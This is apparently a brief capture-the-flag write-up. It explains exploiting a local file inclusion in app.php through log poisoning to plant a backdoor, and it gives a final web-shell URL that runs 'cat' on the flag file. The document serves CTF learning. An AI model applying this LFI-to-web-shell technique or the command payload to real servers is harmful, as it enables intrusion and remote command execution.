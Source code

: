 * There is lfi in app.php
* using that vulnerability try to write backdoor on server using log poisoning ( credit @dmcr7 )
search flag
* Final Payload : 
`http://web1.cybercastors.com:14438/myshell.php?0=cat%20/home/falg/flag/test/why/the/hassle/right/flag.txt`
